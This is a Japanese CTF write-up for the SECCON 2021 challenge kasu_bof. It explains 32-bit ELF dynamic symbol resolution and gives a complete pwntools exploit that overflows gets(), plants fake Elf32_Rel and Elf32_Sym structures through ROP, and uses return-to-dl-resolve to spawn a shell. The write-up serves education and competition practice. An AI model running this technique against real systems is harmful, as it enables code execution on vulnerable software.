 ---
title: "SECCON CTF 2021 - kasu_bof Writeup"
date: 2022-11-11T11:29:55+09:00
draft: false
summary: "本記事はSECCON CTF 2021のPwn問題kasu_bofのWriteupです。"
author: "mc4nf"
---


#+HUGO_BASE_DIR: ./

** 問題
*** 問題文
#+begin_example
## Question
Do you understand return-to-dl-resolve attack on 32-bit?   
#+end_example

*** 配布ファイル
- ~main.c~
- ~chall~
      
**** ~main.c~
#+begin_src c
    #include <stdio.h>

    int main(void) {
      char buf[0x80];
      gets(buf);
      return 0;
    }
#+end_src

**** ~chall~
#+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ file chall
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cb260735eeb00c173f7f530e9fae9ee3704e6c6f, for GNU/Linux 3.2.0, not stripped

mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ checksec chall
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
#+end_example
- x86
- SSP無効
- Partial RELRO
      
** 方針
配布されたソースコード ( ~main.c~ )を見てみると、以下の特徴がある。
- ~buf~ のサイズが ~0x80~ 
- ~gets~ を使用しているため、 ~buf~ に任意の文字数を入力可能

  
このことから，配布されたプログラムには簡単なスタックバッファオーバフローの脆弱性があることがわかる．


また、問題文に ~return to dl resolve~ という攻撃方法を使用すれば良い旨のコメントがあるため，
スタックバッファオーバフローを利用して， ~return to dl resolve~ を用いて ~shell~ を起動できるとよさそうである．


よって、この問題以下の方針で解いていく。
1. *return to dl resolve* を利用するため、 ~.plt~ セクションからライブラリ関数のアドレスが解決するまでの流れを調査
2. 1.を踏まえて、 *return to dl resolve* を利用し、 ~shell~ を起動

** 1. return to dl resolve (ret2dl resolve)
   return to dl resolveは、ライブラリ関数のアドレスを動的に解決する際に呼び出される関数である ~_dl_runtime_resolve_xsavec~ を利用し、任意のライブラリ関数を呼び出す攻撃手法である。

   この攻撃の流れは以下のようになる。

   1. 任意の関数(ここでは ~shell~ )を呼ぶため、 ~_dl_runtime_resolve_xsavec~ に読み込ませる偽の ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体、および  ~system~ 、 ~/bin/sh~ を書き込み可能な領域に用意
   2. ~_dl_runtime_resolve_xsavec~ が ~Elf32_Rel~ 構造体を特定するために引数に取る ~reloc_arg~ を、偽の ~Elf32_Rel~ を指すように指定
   3. ~.plt~ の先頭にジャンプし、偽の構造体を元に ~system~ のアドレスを解決し、 ~system("/bin/sh")~ を実行

   そこで、以下では、pltセクションからアドレス解決の流れを説明し、如何にして偽の構造体を作成すればよいかについて説明する。
      
*** ~.plt~ セクションからアドレス解決の流れ
    ~.plt~ セクションから、 ~link_map~ 構造体を元にそれぞれのセクションのアドレスが特定され、それぞれのセクションに含まれる情報を参照することにより、ライブラリ関数のシンボルを解決する。

    
    そこで、以下では、 ~gets@plt~ が呼び出されてから ~gets~ のシンボルが解決されるまでの流れを示す。


    参考
    #+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reroc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    |  'gets'  |
                                                                                                   |-----------+----------|
    #+end_example
    
**** ~link_map~ 構造体
   ~link_map~ はELFファイルと実際にマッピングされたアドレスの差分や各セクションのアドレス，再配置情報を保持する構造体であり、ライブラリ関数のシンボルを解決する際に参照される。   

   ~plt~ にジャンプする前に、 ~link_map~ 構造体のアドレス（GOTの2番目のエントリ）とGOTのオフセット ( ~reloc_arg~ )がスタックに格納される。
     - https://elixir.bootlin.com/glibc/latest/source/include/link.h#L86
	 #+begin_src c
	   /* Structure describing a loaded shared object.  The `l_next' and `l_prev'
	      members form a chain of all the shared objects loaded at startup.

	      These data structures exist in space used by the run-time dynamic linker;
	      modifying them may have disastrous results.

	      This data structure might change in future, if necessary.  User-level
	      programs must avoid defining objects of this type.  */

	   struct link_map
	     {
	       /* These first few members are part of the protocol with the debugger.
		  This is the same format used in SVR4.  */

	       ElfW(Addr) l_addr;		/* Difference between the address in the ELF
					      file and the addresses in memory.  */
	       char *l_name;		/* Absolute file name object was found in.  */
	       ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
	       struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
	 #+end_src
	 
     以下の例の場合， ~link_map~ 構造体のアドレス ~0x804c004~ と ~gets~ の ~reloc_arg~ ~0x0~ をスタックにプッシュしている。
	#+begin_src
     gef➤  x/10i $eip
     => 0x8049030:   push   DWORD PTR ds:0x804c004
	0x8049036:   jmp    DWORD PTR ds:0x804c008
	0x804903c:   add    BYTE PTR [eax],al
	0x804903e:   add    BYTE PTR [eax],al
	0x8049040 <gets@plt>:        jmp    DWORD PTR ds:0x804c00c
	0x8049046 <gets@plt+6>:      push   0x0
	0x804904b <gets@plt+11>:     jmp    0x8049030
	0x8049050 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804c010
	0x8049056 <__libc_start_main@plt+6>: push   0x8
	0x804905b <__libc_start_main@plt+11>:        jmp    0x8049030
	#+end_src
   

   以下のサイトを参考に、gdbで、ELFの構造体を読み込めるようにする。
   - https://inaz2.hatenablog.com/entry/2014/07/21/124857
     - gdbに ~link.h~ および ~elf.h~ のシンボル情報を読み込み
       #+begin_src 
	 gcc -g -fno-eliminate-unused-debug-types -x c -m32 -c /usr/include/link.h -o link.o
       #+end_src
       今回はx86のELFを対象としているため ~-m32~ オプションを指定

   特定した ~link_map~ 構造体のアドレス ~0xf7ffd990~ の中身を表示してみる。
   #+begin_src 
	 gef➤  add-symbol-file link.o 0
	 add symbol table from file "link.o" at
		 .text_addr = 0x0
	 Reading symbols from link.o...
	 gef➤  set $l = (struct link_map *) 0xf7ffd990
	 gef➤  print *$l
	 $1 = {
	   l_addr = 0x0,
	   l_name = 0xf7ffdc84 "",
	   l_ld = 0x804bf14,
	   l_next = 0xf7ffdc90,
	   l_prev = 0x0
	 }
   #+end_src

**** ~.dynamic~ セクション
  ~.dynamic~ セクションのアドレスは， ~link_map~ 構造体の ~l_ld~ に格納されるため、
  ~.dynamic~ セクションのアドレスは ~0x804bf14~ であるとわかる。
   
  ~.dynamic~ セクションは， ~ELF_Dyn~ 構造体のエントリを ~d_tag~ の種類の数保持しており、この中に ~.rel.plt~ や ~.dynsym~ , ~.dynstr~ などのアドレスが格納されている。
    - ELF_Dyn 構造体
      - https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L838
	#+begin_src c
	  /* Dynamic section entry.  */

	  typedef struct
	  {
	    Elf32_Sword d_tag;			/* Dynamic entry type */
	    union
	      {
		Elf32_Word d_val;			/* Integer value */
		Elf32_Addr d_ptr;			/* Address value */
	      } d_un;
	  } Elf32_Dyn;

	  typedef struct
	  {
	    Elf64_Sxword d_tag;			/* Dynamic entry type */
	    union
	      {
		Elf64_Xword d_val;		/* Integer value */
		Elf64_Addr d_ptr;			/* Address value */
	      } d_un;
	  } Elf64_Dyn;
	#+end_src
	 
    - d_tagの定義
      - https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L860
	#+begin_src c
	  /* Legal values for d_tag (dynamic entry type).  */
	  ...
	  #define DT_STRTAB	5		/* Address of string table */
	  #define DT_SYMTAB	6		/* Address of symbol table */
	  ...
	  #define DT_REL	17		/* Address of Rel relocs */
	  ...
	  #define DT_JMPREL	23		/* Address of PLT relocs */
	  ...
	#+end_src
	 
    また、このとき ~.dynamic~ セクションは， ~d_tag~ の順番に並んでいる訳ではないことに注意。
    - 以下の例では， ~DT_STRTAB, DT_SYMTAB~ は8，9番目のエントリ， ~DT_JMPREL, DT_REL~ は16，17番目のエントリに配置
      #+begin_src 
      0x0804bf14│+0x0000   <_DYNAMIC+0000> 0x00000001
      0x0804bf18│+0x0004   <_DYNAMIC+0004> 0x00000001
      ...
      0x0804bf54│+0x0040   <_DYNAMIC+0040> 0x00000005 // DT_STRTAB
      0x0804bf58│+0x0044   <_DYNAMIC+0044> 0x0804825c
      0x0804bf5c│+0x0048   <_DYNAMIC+0048> 0x00000006 // DT_SYMTAB
      0x0804bf60│+0x004c   <_DYNAMIC+004c> 0x0804820c
      ...
      0x0804bf94│+0x0080   <_DYNAMIC+0080> 0x00000017 // DT_JMPREL
      0x0804bf98│+0x0084   <_DYNAMIC+0084> 0x080482d8
      0x0804bf9c│+0x0088   <_DYNAMIC+0088> 0x00000011 // DT_REL
      0x0804bfa0│+0x008c   <_DYNAMIC+008c> 0x080482d0
      ...
      #+end_src
       
**** ~.rel.plt~ セクション
  ~rel.plt~ セクションは， ~ELF_Rel~ 構造体の配列となっている。
    - ELF_Rel 構造体
      - https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L632
	#+begin_src c
	  /* Relocation table entry without addend (in section of type SHT_REL).  */

	  typedef struct
	  {
	    Elf32_Addr	r_offset;		/* Address */
	    Elf32_Word	r_info;			/* Relocation type and symbol index */
	  } Elf32_Rel;

	  /* I have seen two different definitions of the Elf64_Rel and
	     Elf64_Rela structures, so we'll leave them out until Novell (or
	     whoever) gets their act together.  */
	  /* The following, at least, is used on Sparc v9, MIPS, and Alpha.  */

	  typedef struct
	  {
	    Elf64_Addr	r_offset;		/* Address */
	    Elf64_Xword	r_info;			/* Relocation type and symbol index */
	  } Elf64_Rel;

	  /* Relocation table entry with addend (in section of type SHT_RELA).  */

	  typedef struct
	  {
	    Elf32_Addr	r_offset;		/* Address */
	    Elf32_Word	r_info;			/* Relocation type and symbol index */
	    Elf32_Sword r_addend;		/* Addend */
	  } Elf32_Rela;

	  typedef struct
	  {
	    Elf64_Addr	r_offset;		/* Address */
	    Elf64_Xword r_info;			/* Relocation type and symbol index */
	    Elf64_Sxword r_addend;		/* Addend */
	  } Elf64_Rela;

	  /* RELR relocation table entry */

	  typedef Elf32_Word	Elf32_Relr;
	  typedef Elf64_Xword	Elf64_Relr;
      #+end_src

     ~.dynamic~ セクションから取得した ~.rel.plt~ のアドレス先をgdbでダンプしてみる。
      - ~reloc_arg~ が ~.rel.plt~ のインデックス
	#+begin_src 
	  gef➤  ser $reloc_arg = 0x0
	  gef➤  set $reloc = &((Elf32_Rel *)($l.l_ld[16].d_un.d_ptr))[$reloc_arg]
	  gef➤  print *$reloc
	  $10 = {
	      r_offset = 0x804c00c,
	      r_info = 0x107
	  }

	  gef➤  dd 0x080482d8
	  0x080482d8│+0x0000   0x0804c00c // getsのGOTエントリ (reloc_arg = 0x0)
	  0x080482dc│+0x0004   0x00000107
	  0x080482e0│+0x0008   0x0804c010 // __libc_start_mainのGOTエントリ (reloc_arg = 0x1)
	  0x080482e4│+0x000c   0x00000307
	  0x080482e8│+0x0010   0x00000000
	  0x080482ec│+0x0014   0x00000000
      #+end_src
	 
    ~r_info~ は，シンボルを解決するために使用される。
    ~r_info~ を 8 byte 右シフトすることにより， ~dynsym~ のインデックスを取得することができる。
    - ~r_info~ の定義
      #+begin_src c
	/* How to extract and insert information held in the r_info field.  */

	#define ELF32_R_SYM(val)		((val) >> 8)
	#define ELF32_R_TYPE(val)		((val) & 0xff)
	#define ELF32_R_INFO(sym, type)	(((sym) << 8) + ((type) & 0xff))

	#define ELF64_R_SYM(i)			((i) >> 32)
	#define ELF64_R_TYPE(i)		((i) & 0xffffffff)
	#define ELF64_R_INFO(sym,type)		((((Elf64_Xword) (sym)) << 32) + (type))
      #+end_src
       
**** ~.dynsym~ セクション
    ~.dynsym~ セクションは， ~Elf_Sym~ 構造体の配列となっている。
      - ELF_Sym 構造体
	- https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L517
	  #+begin_src c
	    /* Symbol table entry.  */

	    typedef struct
	    {
	      Elf32_Word	st_name;		/* Symbol name (string tbl index) */
	      Elf32_Addr	st_value;		/* Symbol value */
	      Elf32_Word	st_size;		/* Symbol size */
	      unsigned char st_info;		/* Symbol type and binding */
	      unsigned char st_other;		/* Symbol visibility */
	      Elf32_Section st_shndx;		/* Section index */
	    } Elf32_Sym;

	    typedef struct
	    {
	      Elf64_Word	st_name;		/* Symbol name (string tbl index) */
	      unsigned char st_info;		/* Symbol type and binding */
	      unsigned char st_other;		/* Symbol visibility */
	      Elf64_Section st_shndx;		/* Section index */
	      Elf64_Addr	st_value;		/* Symbol value */
	      Elf64_Xword st_size;		/* Symbol size */
	    } Elf64_Sym;
           #+end_src
	  - ~st_name~ は，実際にシンボルが置かれている ~.dynstr~ セクションのオフセット
    ~r_info~ からインデックスを計算し、 ~Elf32_Sym~ のアドレスを特定してみる。
    #+begin_src
      gef➤  set $symtab = (Elf32_Sym *)($l.l_ld[9].d_un.d_ptr)
      gef➤  set $sym = $symtab[$reloc.r_info>>8]
      gef➤  print $sym
      $7 = {
	st_name = 0x1a,
	st_value = 0x0,
	st_size = 0x0,
	st_info = 0x12,
	st_other = 0x0,
	st_shndx = 0x0
      }
    #+end_src
**** ~.dynstr~ セクション
    ~st_name~ のオフセットを ~.dynstr~ セクションのアドレスに足し合わせたアドレスが，シンボルを指すアドレスとなっている。
    - 以下の例では， ~l_ld~ から ~.dynsym~ セクションのアドレスを取得し，その後 ~r_info~ から取得したインデックスを元に ~.dynstr~ セクションからシンボル名を解決 ( ~reloc_arg = 0~ の ~gets~ が解決)
    #+begin_src
      gef➤  set $strtab = (char*)($l.l_ld[8].d_un.d_ptr)
      gef➤  set $undef_name = $strtab + $sym.st_name
      gef➤  print $undef_name
      $8 = 0x8048276 "gets"
    #+end_src
    これにより、 ~link_map~ 構造体から ~gets~ のシンボルが解決されるまでの流れを把握することができた。

    そこで、次にこの流れを踏まえた上で、 ~system("/bin/sh")~ 呼び出すためのSolverを作成していく。


** 2. Solverの作成    
*** Solverの準備
    上記の流れを図にすると、それぞれのセクションと構造体とシンボルの関係は以下のようになる。
#+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reroc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    | 'system' |
                                                                                                   |-----------+----------|
    #+end_example
    ここで、 ~reloc_arg~ にはスタックバッファオーバフローを利用して任意の値を指定することが可能なため、 ~.rel.plt~ の値から偽の ~Elf32_Rel~ 構造体を配置したアドレスまでのオフセットを設定する。
    #+begin_src python
      reloc_arg = Elf32_Rel_addr - rel
    #+end_src
    
    また、偽の ~Elf32_Rel~ 構造体では、 ~r_info~ を 8 bitだけ右シフトした値を ~.dynsym~ を基準とした偽の ~Elf32_Sym~ 構造体へのインデックスとして使用する。
    このため、事前にインデックスを計算し、 ~Elf32_Rel~ 構造体に格納しておく。
    このとき、 ~r_info~ の下bitが ~0b111 (0x7)~ である必要があるため、最後に ~7~ を or することで下3bitに1を立てている。

    ~r_offset~ は、解決されたアドレスが格納されるアドレスであり、通常は ~.got~ の対応するエントリを指している。
    今回は特に関係ないものの、 ~gets~ の GOTエントリを指定しておく。    
    #+begin_src python
      r_offset = gets_got
      r_info   = ((Elf32_Sym_addr - dynsym)//0x10)<<8 | 7
    #+end_src
    
    ~Elf32_Sym~ 構造体の ~st_name~ は、 ~.dynstr~ の値から ~system~ のシンボルを配置したアドレスまでのオフセットを設定する。
    このため、事前にオフセットの値を計算し、 ~Elf32_Sym~ 構造体に格納しておく。

    ~st_info~ は、global変数であることを指す ~0x12~ を設定しておく必要があるため、設定しておく。
    #+begin_src python
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0
    #+end_src

**** ~.bss~ 領域への作成した構造体やシンボルの格納
    ~.bss~ 領域には，以下のように作成した ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体， ~system~ のシンボル，および ~/bin/sh~ の文字列が格納する．    
    #+begin_example
    |-----------+----------.bss-------------+---------|
    | Elf32_Rel | r_offset                  | 8 byte  |
    |           | r_info                    |         |
    |-----------+---------------------------+---------|
    |           |                           | 8 byte  |
    |           |                           | (align) |
    |-----------+---------------------------+---------|
    | Elf32_Sym | st_name                   | 16 byte |
    |           | st_value                  |         |
    |           | st_size                   |         |
    |           | st_info st_other st_shndx |         |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | symbol    | 'system'                  | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | argment   | '/bin/sh'                 | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           |         |
    #+end_example
    このとき， ~Elf32_Sym~ 構造体は， ~dynsym~ セクションのアドレスから， ~0x10~ byteの間隔で配置されなければならないため( ~Elf32_Sym~ 構造体のサイズが ~0x10~ byteのため)，
    必要なbyte数だけalignしている．

    Solverを書くときは，事前に ~.bss~ のどのアドレスがどの構造体やシンボルに対応するか計算しておき，ROPで ~gets~ の引数として指定しておき，ROPチェインが発火後に，それぞれの構造体やシンボルを書き込んでいく．
        #+begin_src python
      Elf32_Rel_addr = bss

      Elf32_Sym_addr = Elf32_Rel_addr + 0x10

      system_symbol_addr = Elf32_Sym_addr + 0x14

      sh_symbol_addr = system_symbol_addr + 0x1c
    #+end_src

**** ROPチェインの作成
     あとは、用意した偽の構造体やシンボルを ~.bss~ 領域内に格納できるように、複数回 ~gets~ を呼び出す必要がある。

     そこで、 それぞれ計算しておいた領域に構造体を引数とし、 ~gets@plt~ にジャンプするROPを組む。
     x86のROPは、参考のセキュリティコンテストチャレンジブックが参考になる。
     
     #+begin_src python
      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(Elf32_Rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Rel_addr)     # gets arg

      # gets(Elf32_Sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_symbol_addr)     # gets arg
     #+end_src

     それぞれの構造体とシンボルの書き込みを行うROPを組んだ後、偽の構造体を元にアドレスを解決させるため、 ~.plt~ セクションの先頭にジャンプする。
     このとき、 ~system~ の引数として ~/bin/sh~ を取れるように、 ~/bin/sh~ が格納されたアドレスをスタックに積んでおく。
     #+begin_src python
      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # padding
      buf += p32(sh_symbol_addr)     # system arg
     #+end_src

*** Solver
**** solve.py
    #+begin_src python
      from pwn import *

      filename = './chall'
      chall = ELF(filename)

      # docker-compose up
      conn = remote('localhost', 9001)
      # conn = process(filename)

      plt = chall.get_section_by_name('.plt').header.sh_addr
      bss = chall.get_section_by_name('.bss').header.sh_addr
      rel = chall.get_section_by_name('.rel.plt').header.sh_addr
      dynsym = chall.get_section_by_name('.dynsym').header.sh_addr
      dynstr = chall.get_section_by_name('.dynstr').header.sh_addr
      gets_got = chall.got['gets']
      gets_plt = chall.plt['gets']

      # 0x08049022: pop ebx; ret;
      pop_ret = 0x08049022

      # .bss section
      # |-----------+---------------------------+---------|
      # | Elf32_Rel | r_offset                  | 8 byte  |
      # |           | r_info                    |         |
      # |-----------+---------------------------+---------|
      # |           |                           | 8 byte  |
      # |           |                           | (align) |
      # |-----------+---------------------------+---------|
      # | Elf32_Sym | st_name                   | 16 byte |
      # |           | st_value                  |         |
      # |           | st_size                   |         |
      # |           | st_info st_other st_shndx |         |
      # |-----------+---------------------------+---------|
      # |           |                           | 4byte   |
      # |-----------+---------------------------+---------|
      # | symbol    | 'system'                  | 4byte   |
      # |-----------+---------------------------+---------|
      # |           |                           | 4byte   |
      # |-----------+---------------------------+---------|
      # | argment   | '/bin/sh'                 | 4byte   |
      # |-----------+---------------------------+---------|
      # |           |                           |         |

      Elf32_Rel_addr = bss

      Elf32_Sym_addr = Elf32_Rel_addr + 0x10

      system_symbol_addr = Elf32_Sym_addr + 0x14

      sh_symbol_addr = system_symbol_addr + 0x1c

      # calc index of Elf32_Rel from .rel.plt
      reloc_arg = Elf32_Rel_addr - rel

      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(Elf32_Rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Rel_addr)     # gets arg

      # gets(Elf32_Sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_symbol_addr)     # gets arg

      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # padding
      buf += p32(sh_symbol_addr)     # system arg

      conn.sendline(buf)

      # create Elf32_Rel
      ###################################################################################
      # typedef struct
      # {
      #     Elf32_Addr	r_offset;		/* Address */
      #     Elf32_Word	r_info;			/* Relocation type and symbol index */
      # } Elf32_Rel;
      ###################################################################################
      r_offset = gets_got
      r_info   = ((Elf32_Sym_addr - dynsym)//0x10)<<8 | 7

      # |-----------+---------------------------+---------|
      # | Elf32_Rel | r_offset                  | 8 byte  |
      # |           | r_info                    |         |
      # |-----------+---------------------------+---------|
      Elf32_Rel = p32(r_offset)
      Elf32_Rel += p32(r_info)
    
      conn.sendline(Elf32_Rel)

      # create Elf32_Sym
      ###################################################################################
      # typedef struct
      # {
      #     Elf32_Word	st_name;		/* Symbol name (string tbl index) */
      #     Elf32_Addr	st_value;		/* Symbol value */
      #     Elf32_Word	st_size;		/* Symbol size */
      #     unsigned char st_info;		/* Symbol type and binding */
      #     unsigned char st_other;		/* Symbol visibility */
      #     Elf32_Section st_shndx;		/* Section index */
      # } Elf32_Sym;
      ###################################################################################
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0

      # |-----------+---------------------------+---------|
      # | Elf32_Sym | st_name                   | 16 byte |
      # |           | st_value                  |         |
      # |           | st_size                   |         |
      # |           | st_info st_other st_shndx |         |
      # |-----------+---------------------------+---------|
      Elf32_Sym = p32(st_name)
      Elf32_Sym += p32(st_value)
      Elf32_Sym += p32(st_size)
      Elf32_Sym += p8(st_info)
      Elf32_Sym += p8(st_other)
      Elf32_Sym += p16(st_shndx)

      conn.sendline(Elf32_Sym)

      # create system symbol
      # |-----------+---------------------------+---------|
      # | symbol    | 'system'                  | 4byte   |
      # |-----------+---------------------------+---------|
      conn.sendline(b'system')

      # create sh symbol
      # |-----------+---------------------------+---------|
      # | argment   | '/bin/sh'                 | 4byte   |
      # |-----------+---------------------------+---------|
      conn.sendline(b'/bin/sh')

      conn.interactive()
    #+end_src
    
**** 実行結果
     #+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ python solve.py 
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
$ ls
chall
flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
     #+end_example

**** ~SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}~
     
**  参考
- 詳解セキュリティコンテスト
  - https://book.mynavi.jp/ec/products/detail/id=122750
  - 33.2.2 発展：関数シンボルの動的解決 pp.525
  
- ROP stager + Return-to-dl-resolveによるASLR+DEP回避 - ももいろテクノロジー   
  - https://inaz2.hatenablog.com/entry/2014/07/15/023406

- ret2dl resolve - slideshare
  - https://www.slideshare.net/sounakano/ret2dl-resolve

- セキュリティコンテストチャレンジブック
  - https://book.mynavi.jp/ec/products/detail/id=42421
  - 2.4 エクスプロイト - Retrun to PLT (ret2plt) pp.109
    - x86のROP

- リンカ・ローダ実践開発テクニック
  - https://shop.cqpub.co.jp/hanbai/books/38/38071.html
  - 2.9 シンボル・テーブル pp.54
    - Elf_Sym構造体について    
  - 2.10 再配置テーブル pp.57
    - Elf_Rel構造体について

- gdbに構造体定義を読み込ませて使う - ももいろテクノロジー
  - https://inaz2.hatenablog.com/entry/2014/07/21/124857
